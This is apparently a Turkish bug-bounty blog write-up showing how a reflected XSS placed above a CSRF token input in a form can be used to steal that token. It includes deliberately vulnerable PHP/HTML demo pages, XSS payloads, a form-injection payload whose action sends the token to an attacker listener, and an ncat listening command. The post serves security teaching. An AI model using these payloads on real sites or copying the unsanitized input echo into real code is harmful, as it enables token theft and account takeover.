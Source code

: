 ```yaml
---
title: 'TR \| Steal CSRF Tokens with simple XSS'
date: 2019-06-27
permalink: /posts/steal-csrf-tokens-with-simple-xss/
tags:
  - xss
  - hack
  - steal csrf tokens
  - csrf bypass
  - csrf
  - bugbounty
  - bug bounty
  - write-up
  - poc
  - vulnerability
excerpt: 'Steal CSRF Tokens with simple XSS'
---
```


Merhaba,
Ben Samet ŞAHİN. İki yıldan biraz uzun süredir *Bug Bounty* ile ve toplamda yaklaşık dört yıldır da *Web Uygulama Güvenliği* alanında çalışmalar yürütmekteyim. 

*Bug Hunterlar* olarak biz, Bug Bounty ile uğraşırken pek çok farklı sistem ve farklı güvenlik önlemleri görüyoruz. Bug Hunter olarak amacımız, güvenli (gözüken) sistemlerde (gerçek ve etkisi olan) açıklar bulup, onları şirketlere bildirmektir. 


Yaptığımız testlerde bulduğumuz aynı tür açıklar her zaman aynı potansiyel zarara (impact) sahip olmayabiliyor. 

Örneğin;
Kurbana otomatik olarak çıkış yaptıran CSRF açığı (Bu genellikle açık kapsamına bile girmez.) ile kurbana otomatik olarak email ve parola değişikliği yaptıran CSRF (*1) açığı elbette aynı zararı veremez.


  

Şimdi, bu yazının konusuna gelelim. Elimizde iki adet XSS (Cross Site Scripting) açığı ve HTML kaynak kodundaki bir *input* tagına yansımış CSRF tokenlerimiz (*2) var. 
  

## Normal XSS Açığı :  
Çirkin bir arama kutusu olduğunu, sitenin kaynak kodlarında CSRF Tokenlerin bulunduğunu ve *search* input'unun değerini *GET* isteğindeki *search* parametresinden aldığını görüyoruz. (*3)

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html	
<form>
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="text" name="search" value="<?php echo $_GET['search']; ?>">
<input type="submit" value="Submit">
</form>
```


Elimizde şu an için hiçbir açık yok fakat görüyoruz ki *search* parametresi hiçbir sanitizasyon (*4) işlemi yapılmamış. Bu durumda diyebiliriz ki buradan bir XSS açığı çıkabilir. (*5) Açığımızı bulmamız için GET metoduyla search parametresine bir payload (*6) yazıyoruz ;
`"><h1>xss`  gönderdik ve kaynak kodunu inceledik : 

<img src="/images/Blog-1.png">


Evet, başarılı bir şekilde valuenin tırnaklarını kapattık ve artık kendi HTML kodumuzu site üzerinde çalıştırabileceğimizi gördük. Şimdi XSS kanıtı için JavaScript kodunu çalıştırmamız gerekiyor. Bu seferki açık kodumuz ;
`"><script>alert(1)</script>` (*7) gönderdik ve kaynak kodunu inceledik :

<img src="/images/Blog-2.png">


XSS açığını kanıtlamış olduk. Bu normal bir XSS saldırısıydı ve HTML ve JavaScript kodu çalıştırmak dışında pek de bir şey yapamadık.


## Kritik XSS Açığı : 
Normal XSS açığında gördüğümüz sayfayla aynı işlemi yapmasına rağmen inputların sırasının farklı olduğu açıklı bir sayfa. İlk açıkta gönderdiğimiz açık kodlarının bu sitede de çalıştığını görebiliyoruz. 

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html
<form>
<input type="hidden" name="search" value="<?php echo $_GET['search']; ?>">	
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="submit" value="Submit">
</form>
```



**Trick zamanı :**  
Örneklerle de gördüğümüz gibi iki tane XSS ve input taglarına yansıtılmış CSRF tokenlerini gördük. Eğer `<form>` tagı ve CSRF tokeninin yansıtılmış olduğu input tagının arasında XSS açığına sahipseniz, CSRF tokenlerini de çalabilirsiniz. Bu gerçek ve daha önce pek çok kez karşılaştığım bir senaryo ama Sadece Kritik XSS açığında işe yarar. Neden mi ?

- Çünkü HTML dilinde değişken tanımlayıp sonra kullanma gibi bir ihtimaliniz yoktur. Yani yukarıda bir CSRF Tokenli input varsa ve siz aşağıdaki tagda kod çalıştırabiliyorsanız, o CSRF Tokenine XSS açığı ile erişemezsiniz. (*8)

-  Yukarıda da değindiğim gibi `<form>` tagları arasında`</form>` ve CSRF Token'in yansıtılmış olduğu `<input>` tagının üstünde olmanız gerekmektedir. Eğer bu ikisine de sahipseniz CSRF tokenlerini rahatlıkla çalabilirsiniz.



**O zaman exploit edelim :**  
Öncelikle XSS açığıyla CSRF tokenlerini çalabilmek için güzel bir payload yazmamız gerekiyor. Paylaodımızın  mantığı şu olmalı : 
- Daha önce açılmış olan formu kapat : `"></form>`
- Yeni bir form aç ve action (*9) eventine dinlediğin ip ve port'u gir (*10) : `"></form><form method="GET" action="http://127.0.0.1:667/bla.html">`
- Ncat ile seçili portu (667) dinle
- Kullanıcıyı butona tıklat ve loglardan CSRF Token'ini çek.


Exploit videosu burada :
<video width="500" controls>
  <source src="/files/Blog-1.webm" type="video/mp4">
</video>




**SONUÇ :**  
Değerli içerik taşıyan input tagının ve açıklı input tagının sırası bile bir açığın zararını arttıracak kadar önemli olabiliyor. Bu yüzden manuel testler yapmanız ve bunun gibi trickleri deneyerek öğrenmeniz çok önemli. Deneyebilmeniz için Github'a XSS açıklı 2 dosyayı da koyuyorum. Kendi tricklerimi ve işinize yarayabilecek trickleri paylaştığım Twitter ve LinkedIn hesaplarımdan bana ulaşabilirsiniz. 


[Github](https://github.com/sametsahinnet/XSS-Blog-Post)

  ----

***1** :
Bu açık hakkında yazımı okuyabilirsiniz : https://sametsahin.net/posts/account-takeover-via-reset-password/

***2** :
CSRF açığının oluşmasını engellemek için her istek veya kullanıcıya göre değişen uzun ve rastgele değerdir. Bu tokenlerin olmadığı durumlarda CSRF açığı meydana gelebilir.

***3** :
Bu kısım temel Web bilgisine dayandığı için Google'dan bulabilirsiniz.

***4** :
Sanitizasyon, diğer adıyla filtreleme işlemleri, kullanıcıdan direkt olarak alınan girdilerin, açıklara dönüşmesini engellemek için kullanılan güvenli kod yazma tekniğidir. Pek çok açık gerekli sanitizasyon işleminin yapılmaması veya yeterince kapsamlı olmamasından kaynaklanır.

***5** :
Elbette XSS çıkar bu doğru. Yanlış olan oradan sadece XSS çıkacağı düşüncesidir. Özellikle bu işlere yeni başladıysanız sadece bir açık bulmaya çalışırsınız. Yapmanız gereken bir açıktan en fazla ne kadar ileriye gidebileceğinizi denemektir. Herkes XSS bulabilir ama kolay kolay kimse XSS ile CSRF tokenlerinin de çalmayı denemez. 

***6** :
Payload, açıkları bulmak ve sömürmek için hacker tarafından yazılan kodlardır. Payloadlara, açık kodları diyebiliriz. Ve payloadlar yeşil renkle ekrandan hızlıca akıp gitmez :)

***7** :
Normalde böyle bir payload çok az yerde işe çalışır. Payloadlarınızın kalitesini arttırmanız için elle yazmanızı ve her tuşun kaynak kodunda yansımış olduğu yerlere dikkatlice bakınız. Yani her deneyişinizde websitenin yanıtını kontrol ediniz.

***8** :
Hayır, erişebilirsiniz. Ama bunun ihtimali çok düşüktür. JavaScript kullanarak input içinde yer alan değerleri ekrana basabilirsiniz. Fakat bunun uzun ve içinde `<script>` tagının kullanılmış olduğu bir payload yazmak zorundasınız. Ve ödül verecek kadar büyük tüm şirketler o `<script>` tagını gördüğü anda sizi engeller. Bu yüzden bulsanız bulsanız küçük yerlerde bulursunuz ve o küçük yerler de küçük olduğu için CSRF token zaten kullanmamış olu ;)

***9** :
HTML'de form tagı açıldığı zaman bir de onu kapatmanız gerekir. Biz kapanmış form (`</form>`) tagı enjekte ettiğimiz zaman görüntü şu şekilde olur : 


```html
<form>
<input type="hidden" name="search" value="query"></form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Enjekte ettiğimiz form tagı ile 1 tamamen kapatılmış ve bir de açılış tagı eksik olan `</form>` tagımız olur. O zaman açılış tagımızı payloadımıza ekliyoruz ve son durumda iki adet form'umuz oluyor : 

```html
<form>
<input type="hidden" name="search" value="query">
</form>

ve

<form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Baştan beri amacımız CSRF Tokeni içeren form'u kontrol edebilmekti. Action kısmını değiştirdiğimiz anda artık CSRF Tokeni içeren her istek bizim loglarımıza düşecek ve oradan okuyabileceğiz.

***10** :
CSRF Token'ine loglardan erişebilmemiz için logların bizde olması gerekir. Bu yüzden kendi local'imizde rastgele bir port'u dinliyoruz. Bu işlemi `ncat` ile yapabilirsiniz : 

`ncat -nlvp 667`





Değerli zamanınız için teşekkür ederim.  
Bol açıklar :)
